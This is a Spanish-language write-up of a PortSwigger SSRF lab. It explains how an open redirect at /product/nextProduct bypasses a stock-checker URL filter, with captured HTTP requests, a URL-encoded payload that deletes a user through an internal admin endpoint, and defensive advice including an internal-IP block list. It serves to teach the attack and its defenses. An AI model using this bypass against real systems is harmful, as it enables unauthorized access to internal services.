




# PortSwigger Web Security Academy — SSRF Lab 5

## SSRF with filter bypass via open redirection vulnerability

**URL del laboratorio:**  
https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

**Nombre del laboratorio:**  
SSRF with filter bypass via open redirection vulnerability

**Traducción:**  
SSRF con bypass de filtros mediante una vulnerabilidad de redirección abierta.

---

## 1. Objetivo del laboratorio

Este laboratorio tiene una funcionalidad de comprobación de stock que obtiene datos desde un sistema interno.

Para resolverlo, hay que conseguir que el servidor vulnerable acceda a la interfaz de administración interna situada en:

```text
http://192.168.0.12:8080/admin
```

y después usar esa interfaz para eliminar al usuario:

```text
carlos
```

La dificultad está en que la funcionalidad de comprobación de stock ha sido restringida para que solo pueda acceder a URLs de la propia aplicación local. Por tanto, no se puede poner directamente la URL interna `http://192.168.0.12:8080/admin` en el parámetro `stockApi`.

Para saltar esa restricción, hay que encontrar una **open redirect** dentro de la aplicación y usarla como puente.

---

## 2. Idea general del ataque

Este laboratorio combina dos vulnerabilidades:

1. **SSRF** en la funcionalidad de comprobación de stock.
2. **Open redirect** en el endpoint de navegación al siguiente producto.

La idea es esta:

```text
No puedo hacer que stockApi apunte directamente a:
http://192.168.0.12:8080/admin

Pero sí puedo hacer que stockApi apunte a una ruta local permitida:
/product/nextProduct?path=...

Y esa ruta local redirige a:
http://192.168.0.12:8080/admin
```

Es decir:

```text
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

El filtro SSRF ve una ruta local:

```text
/product/nextProduct
```

Entonces la permite.

Pero cuando el backend hace la petición a esa ruta local, la aplicación responde con un `302 Found` hacia la URL interna:

```text
Location: http://192.168.0.12:8080/admin
```

Si el cliente HTTP del backend sigue redirecciones automáticamente, terminará visitando la URL interna prohibida.

Ese es el bypass.

---

## 3. Qué es SSRF en este contexto

SSRF significa **Server-Side Request Forgery**.

En español: falsificación de peticiones del lado servidor.

En una SSRF, el atacante no accede directamente al recurso interno. En vez de eso, fuerza al servidor vulnerable a hacer una petición por él.

Flujo normal de usuario:

```text
Usuario → aplicación web
```

Flujo SSRF:

```text
Usuario → aplicación web vulnerable → recurso interno
```

En este laboratorio, la funcionalidad vulnerable es la comprobación de stock.

Cuando pulsamos **Check stock**, el navegador envía una petición al backend con un parámetro llamado `stockApi`.

Ese parámetro indica a qué URL debe conectarse el backend para consultar el stock.

Ejemplo normal:

```text
stockApi=/product/stock/check?productId=1&storeId=1
```

El servidor recibe eso y hace internamente algo equivalente a:

```python
requests.get(stockApi)
```

o, en pseudocódigo:

```text
consultar_la_url_que_viene_en_stockApi()
```

El problema aparece porque si el usuario controla `stockApi`, puede intentar cambiar el destino de esa petición.

---

## 4. Qué cambia en este laboratorio respecto a SSRF anteriores

En laboratorios SSRF anteriores, a veces bastaba con cambiar `stockApi` directamente a algo como:

```text
http://localhost/admin
```

o:

```text
http://192.168.0.132:8080/admin
```

Aquí eso ya no funciona.

El laboratorio indica que la funcionalidad de stock está restringida para acceder solo a la propia aplicación local.

Eso significa que si intentamos poner directamente una URL externa o interna no permitida, el backend la rechaza.

Por ejemplo, si intentamos esto:

```text
stockApi=http://localhost/admin
```

o esto:

```text
stockApi=http://192.168.0.12:8080/admin
```

la aplicación responde con error.

La defensa probablemente valida la URL inicial y comprueba que pertenece a la propia aplicación.

Pero el fallo está en que solo valida la **URL inicial**, no la **URL final después de seguir redirecciones**.

---

## 5. Qué es una open redirect

Una **open redirect** ocurre cuando una aplicación permite que el usuario controle el destino de una redirección.

Ejemplo legítimo:

```text
/product/nextProduct?path=/product?productId=3
```

La aplicación puede responder:

```http
HTTP/2 302 Found
Location: /product?productId=3
```

Eso es una redirección interna normal.

El problema aparece si podemos cambiar `path` por una URL completa externa o interna:

```text
/product/nextProduct?path=http://example.com
```

Y la aplicación responde:

```http
HTTP/2 302 Found
Location: http://example.com
```

Eso es una open redirect, porque el usuario controla completamente el destino.

En este laboratorio, la open redirect está en:

```text
/product/nextProduct
```

con el parámetro:

```text
path=
```

---

## 6. Por qué una open redirect ayuda a saltar un filtro SSRF

El filtro SSRF bloquea URLs directas como:

```text
http://192.168.0.12:8080/admin
```

Pero permite rutas locales como:

```text
/product/nextProduct?path=...
```

Entonces usamos una URL local permitida que redirige a la URL interna prohibida.

Es decir, el payload no empieza directamente por el host interno. Empieza por un endpoint local:

```text
/product/nextProduct?path=http://192.168.0.12:8080/admin
```

El filtro ve:

```text
/product/nextProduct
```

y piensa:

```text
Esto pertenece a la misma aplicación. Permitido.
```

Pero después ocurre esto:

```text
1. Backend pide /product/nextProduct?path=http://192.168.0.12:8080/admin
2. La aplicación responde 302 Location: http://192.168.0.12:8080/admin
3. El cliente HTTP del backend sigue la redirección
4. El backend termina visitando http://192.168.0.12:8080/admin
```

Este es el punto central del laboratorio.

La defensa valida la primera URL, pero no revalida la URL final tras la redirección.

---

## 7. Vista inicial del laboratorio

Al iniciar el laboratorio, se abre una tienda con productos.



La página muestra productos como:

- The Splash
- Couple's Umbrella
- Giant Pillow Thing
- BBQ Suitcase

El laboratorio tiene una funcionalidad de comprobación de stock dentro de cada producto.

La vulnerabilidad SSRF está en esa funcionalidad.

---

## 8. Captura de la petición de Check Stock

Entramos en cualquier producto y pulsamos **Check stock**.

Con Burp Suite y FoxyProxy activados, capturamos la petición en el historial HTTP y la enviamos a Repeater.

La petición tiene esta forma:

```http
POST /product/stock HTTP/2
Host: 0aea000004fc60228039da8900170003.web-security-academy.net
Cookie: session=EOZZZqqFb5y7kruNsq21AGic6jskDnbo; session=fXL66u6BxG7Y2ra3vtz1GudqcyxyE5vs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aea000004fc60228039da8900170003.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0aea000004fc60228039da8900170003.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Lo importante está en el body:

```text
stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

Si lo decodificamos, queda:

```text
stockApi=/product/stock/check?productId=1&storeId=1
```

Esto significa que nuestro navegador no consulta el stock directamente.

Nuestro navegador pide al backend:

```text
Haz tú la petición a esta URL y devuélveme el resultado.
```

Esa URL es el parámetro `stockApi`.

---

## 9. Diferencia entre la petición del navegador y la petición SSRF real

Aquí hay dos peticiones distintas.

### 9.1 Petición que hacemos nosotros

```http
POST /product/stock
```

Esta petición va desde nuestro navegador hacia el servidor de la aplicación.

Sirve para enviarle al backend el valor de `stockApi`.

### 9.2 Petición que hace el backend

Después, el backend hace otra petición usando el valor de `stockApi`.

Por ejemplo:

```text
GET /product/stock/check?productId=1&storeId=1
```

El SSRF ocurre en esta segunda petición, no en la primera.

La primera petición es solo el contenedor para entregar la URL al backend.

Flujo completo:

```text
Navegador
  ↓
POST /product/stock
stockApi=/product/stock/check?productId=1&storeId=1
  ↓
Backend vulnerable
  ↓
GET /product/stock/check?productId=1&storeId=1
  ↓
Servicio interno / ruta interna
  ↓
Respuesta vuelve al backend
  ↓
Backend devuelve resultado al navegador
```

Frase clave:

```text
El POST no es la SSRF. La SSRF ocurre cuando el backend usa stockApi para hacer otra petición HTTP.
```

---

## 10. Primer intento directo contra localhost

Probamos a cambiar `stockApi` por:

```text
http://localhost/admin
```

URL encodeado en Burp:

```text
stockApi=http%3a//localhost/admin
```

La aplicación responde:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 48

"Invalid external stock check url 'Invalid URL'"
```

Esto nos dice que la aplicación no acepta esa URL externa como destino de stock.

El backend está aplicando una restricción.

El laboratorio ya nos avisaba de esto: la funcionalidad de stock solo puede acceder a la propia aplicación local.

---

## 11. Intento directo contra el host interno objetivo

El objetivo real del laboratorio es:

```text
http://192.168.0.12:8080/admin
```

Probamos a meterlo directamente en `stockApi`:

```text
stockApi=http%3a//192.168.0.12%3a8080/admin
```

La aplicación vuelve a bloquearlo.

Esto ocurre porque el filtro detecta que `stockApi` está apuntando a un host externo o no permitido.

Por tanto, la explotación directa no funciona.

Necesitamos una ruta que parezca local al filtro, pero que luego redirija al host interno.

---

## 12. Búsqueda de la open redirect

El laboratorio nos dice que debemos encontrar una open redirect.

Al revisar la navegación del producto, aparece un enlace interesante:

```text
< Return to list | Next product
```



El enlace **Next product** es sospechoso porque implica navegación automática a otro producto.

Cuando una funcionalidad tiene nombres como:

- `next`
- `redirect`
- `return`
- `path`
- `url`
- `continue`
- `returnPath`

hay que revisarla porque puede existir una redirección controlada por el usuario.

Capturamos la petición al pulsar **Next product**:

```http
GET /product/nextProduct?currentProductId=2&path=/product?productId=3 HTTP/2
Host: 0aea000004fc60228039da8900170003.web-security-academy.net
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="145", "Not=A?Brand";v="8", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: close
```

La parte importante es la ruta:

```text
/product/nextProduct?currentProductId=2&path=/product?productId=3
```

Especialmente:

```text
path=/product?productId=3
```

Esto parece indicar que el parámetro `path` controla a dónde redirige la aplicación.

---

## 13. Confirmación de la open redirect

Probamos a cambiar `path` por la URL interna del panel admin:

```http
GET /product/nextProduct?currentProductId=2&path=http://192.168.0.12:8080/admin HTTP/2
```

La respuesta es:

```http
HTTP/2 302 Found
Location: http://192.168.0.12:8080/admin
Set-Cookie: session=pDL2vhna0Xr8qTvjjCT7fQCHoEtMPKpj; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Esto confirma la open redirect.

La aplicación está aceptando un destino absoluto en `path` y lo coloca directamente en la cabecera `Location`.

Es decir, la aplicación dice:

```text
Vete a http://192.168.0.12:8080/admin
```

Esto todavía no resuelve el laboratorio.

Solo hemos comprobado que la redirección abierta existe.

---

## 14. Por qué probar la open redirect directamente no resuelve el lab

Si llamamos directamente a:

```text
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

desde el navegador o desde Burp, obtenemos una redirección:

```http
HTTP/2 302 Found
Location: http://192.168.0.12:8080/admin/delete?username=carlos
```

Pero eso solo significa que **nosotros** hemos llamado al endpoint de redirección.

El objetivo del lab no es demostrar que existe una open redirect.

El objetivo es hacer que el **backend vulnerable de stock** siga esa redirección.

Diferencia crítica:

```text
Incorrecto:
Tú → /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

Correcto:
Tú → POST /product/stock con stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
       ↓
Backend → /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
       ↓
Backend sigue 302
       ↓
Backend → http://192.168.0.12:8080/admin/delete?username=carlos
```

La open redirect sola no ejecuta el SSRF.

La open redirect debe ir dentro de `stockApi`.

---

## 15. Payload final dentro de stockApi

Volvemos a la petición original de Check Stock:

```http
POST /product/stock HTTP/2
...

stockApi=...
```

Y sustituimos `stockApi` por la ruta local vulnerable:

```text
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

Como el body tiene formato `application/x-www-form-urlencoded`, hay que URL encodear caracteres especiales.

Payload usado:

```text
stockApi=/product/nextProduct%3fpath%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos
```

Equivalente decodificado:

```text
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

Este es el payload correcto.

---

## 16. Qué ocurre internamente con el payload final

Con el payload final ocurre esto:

### Paso 1 — Nosotros enviamos la petición al stock checker

```http
POST /product/stock

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

### Paso 2 — El filtro SSRF revisa la URL inicial

El filtro ve que `stockApi` empieza por una ruta local:

```text
/product/nextProduct
```

Entonces la permite.

### Paso 3 — El backend hace la petición a la ruta local

```http
GET /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

### Paso 4 — La aplicación responde con una redirección

```http
HTTP/2 302 Found
Location: http://192.168.0.12:8080/admin/delete?username=carlos
```

### Paso 5 — El cliente HTTP del backend sigue la redirección

El backend termina haciendo:

```http
GET http://192.168.0.12:8080/admin/delete?username=carlos
```

### Paso 6 — El usuario Carlos se elimina

El endpoint interno ejecuta la acción administrativa y borra a Carlos.

---

## 17. Resultado en Burp

Al enviar el payload dentro de `stockApi`, recibimos una respuesta `200 OK`.

Al renderizar la respuesta en Burp, vemos el panel de administración indicando que el usuario fue eliminado correctamente.



En la imagen se aprecia:

```text
User deleted successfully!
```

Y en la lista de usuarios ya solo aparece:

```text
wiener - Delete
```

El usuario `carlos` ya no aparece.

---

## 18. Laboratorio resuelto

Tras borrar a Carlos mediante SSRF + open redirect, el laboratorio queda resuelto.



La cabecera muestra:

```text
Congratulations, you solved the lab!
```

---

## 19. Por qué el bypass funciona exactamente

Funciona porque hay una diferencia entre:

```text
URL validada
```

y:

```text
URL finalmente visitada
```

La aplicación valida solo esto:

```text
/product/nextProduct?path=...
```

Pero el cliente HTTP termina visitando esto:

```text
http://192.168.0.12:8080/admin/delete?username=carlos
```

La validación se aplica antes de seguir la redirección.

El destino final no se valida.

Ese es el error.

---

## 20. Qué habría hecho una defensa correcta

Una defensa correcta no debería confiar únicamente en la URL inicial.

Debería hacer varias cosas:

### 20.1 No permitir URLs arbitrarias en stockApi

En vez de aceptar una URL completa o una ruta controlada por el usuario, el backend debería usar identificadores controlados.

Malo:

```text
stockApi=/product/stock/check?productId=1&storeId=1
```

Mejor:

```text
productId=1&storeId=1
```

y que el servidor construya internamente la URL real hacia el servicio de stock.

### 20.2 Validar el destino final después de redirecciones

Si el cliente HTTP sigue redirecciones, hay que validar cada salto.

No basta con validar la primera URL.

Hay que comprobar:

```text
URL inicial
Location del primer 302
Location del segundo 302
...
URL final
```

### 20.3 Desactivar seguimiento automático de redirecciones

Otra defensa útil es desactivar redirects automáticos para peticiones server-side sensibles.

Por ejemplo:

```python
requests.get(url, allow_redirects=False)
```

Luego el servidor puede decidir manualmente si sigue o no la redirección.

### 20.4 Allowlist estricta

Si solo se debe consultar el servicio de stock, se debe permitir únicamente el host exacto esperado.

Por ejemplo:

```text
stock.internal.local
```

o una IP concreta controlada.

No se debería permitir que el usuario introduzca cualquier host, ruta o esquema.

### 20.5 Bloquear rangos internos peligrosos

También hay que impedir que el backend pueda hacer peticiones hacia:

```text
127.0.0.0/8
10.0.0.0/8
172.16.0.0/12
192.168.0.0/16
169.254.169.254
localhost
::1
```

Pero esto debe hacerse con parsing de URL correcto y resolución DNS segura, no con simples búsquedas de strings.

---

## 21. Diferencia entre blacklist y allowlist

Una blacklist intenta bloquear destinos peligrosos.

Ejemplo:

```text
Bloquear localhost
Bloquear 127.0.0.1
Bloquear /admin
Bloquear 192.168.
```

El problema es que las URLs se pueden representar de muchas formas:

```text
127.1
0x7f000001
2130706433
localhost.
%2561dmin
redirecciones
DNS rebinding
```

Una allowlist hace lo contrario:

```text
Solo permitir stock.internal.local
```

Todo lo demás se rechaza.

Para SSRF, una allowlist estricta suele ser mucho más robusta que una blacklist.

---

## 22. Diferencia entre open redirect normal y open redirect usada para SSRF

Una open redirect normal permite enviar al usuario a otro sitio.

Ejemplo:

```text
https://victim.com/redirect?url=https://evil.com
```

Impacto típico:

- phishing
- robo de credenciales por confianza en el dominio original
- bypass de validaciones de redirect_uri mal implementadas

Pero en SSRF tiene un uso más técnico:

```text
El servidor vulnerable valida victim.com/redirect
pero termina visitando evil.com o una IP interna
```

En este lab, la open redirect sirve para convertir una URL local permitida en una petición a un host interno prohibido.

---

## 23. Qué aprendemos de este laboratorio

Este lab enseña varias ideas importantes:

1. SSRF no siempre se explota poniendo directamente la URL interna.
2. Los filtros pueden limitar el destino inicial de la petición.
3. Las redirecciones pueden cambiar el destino real.
4. Una open redirect puede servir como bypass de SSRF.
5. El backend puede seguir redirecciones automáticamente.
6. Hay que validar la URL final, no solo la inicial.
7. Las funcionalidades aparentemente inocentes como “Next product” pueden ser críticas.
8. Los parámetros `path`, `url`, `redirect`, `next`, `return` y similares son siempre sospechosos.

---

## 24. Resumen del ataque completo

```text
1. Abrimos un producto.
2. Capturamos la petición de Check stock.
3. Vemos que existe el parámetro stockApi.
4. Probamos acceso directo a localhost/admin y falla.
5. Probamos acceso directo a 192.168.0.12:8080/admin y falla.
6. Buscamos una open redirect en la aplicación.
7. Encontramos /product/nextProduct?path=...
8. Confirmamos que path permite redirigir a http://192.168.0.12:8080/admin.
9. Volvemos a la petición POST /product/stock.
10. Metemos dentro de stockApi la ruta local vulnerable:
    /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
11. El filtro permite la URL inicial porque es local.
12. El backend solicita /product/nextProduct.
13. La aplicación responde con 302 hacia el host interno.
14. El backend sigue la redirección.
15. El backend accede a /admin/delete?username=carlos.
16. Carlos es eliminado.
17. El laboratorio queda resuelto.
```

---

## 25. Payload final

Payload decodificado:

```text
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

Payload usado en Burp, con caracteres importantes URL encodeados:

```text
stockApi=/product/nextProduct%3fpath%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos
```

---

## 26. Frase clave final

```text
El filtro permite la primera URL porque parece local, pero la open redirect hace que el backend termine visitando una URL interna prohibida.
```

Esa es la esencia del laboratorio.

